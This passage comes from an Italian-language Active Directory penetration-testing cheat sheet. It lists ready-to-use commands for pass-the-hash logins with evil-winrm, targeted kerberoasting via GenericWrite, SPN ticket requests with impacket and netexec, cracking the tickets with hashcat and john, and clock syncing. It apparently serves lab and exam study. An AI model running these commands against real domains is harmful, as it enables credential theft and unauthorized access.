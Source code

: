oppure

```bash
sudo evil-winrm -i IP-TARGET -u <USER> -H <HASH>
```

d. Ho un utente con la proprietà ***GenericWrite*** su un altro utente: possiamo effettuare un *targeted kerberoasting attack* (valido anche in caso di proprietà *WriteOwner, GenericAll, WritePropriety, Validated-SPN,* o *WriteProprieties*)

```bash
python targetedKerberoast.py -u <"USER"> -p <"PASSWORD"> -d <"DOMAIN"> --dc-ip <IP>
```

oppure

```bash
python targetedKerberoast.py -v -d <domain> -u <user> -p <pass> --request-user <requested_user> -o <output.kerb>
```

e. Se abbiamo un “***kerberoastable account***”, possiamo tentare un *kerberoasting attack* e crackare la password con hashcat

```bash
impacket-GetUserSPNs <DOMAIN>/<user>:<password> -dc-ip <DC_IP> -request
```

oppure semplicemente

```bash
impacket-GetUserSPNs <DOMAIN>/<user>:<password> -outputfile <FILENAME>
```

oppure

```bash
netexec ldap <IP> -u <'username'> -p <'password'> --kerberoast <output.txt>
```

```bash
hashcat -m 13100 hash.txt <WORDLIST.txt>
```

oppure

```bash
john --wordlist=<WORDLIST.txt> --fork=4 --format=krb5tgs <kerberos_hashes.txt>
```

f. Ricordiamoci, in caso di errore durante un attacco *kerberoasting*, di settare il *time* corretto con la macchina target

```bash
sudo ntpdate <DOMAIN>
```

oppure

```bash
sudo ntpdate -s <DOMAIN>
```

g. Se l’utente compromesso ha dei privilegi oltre al dumping del sam per un eventuale *privilege escalation*, possiamo provare un *token impersonation* con Metasploit
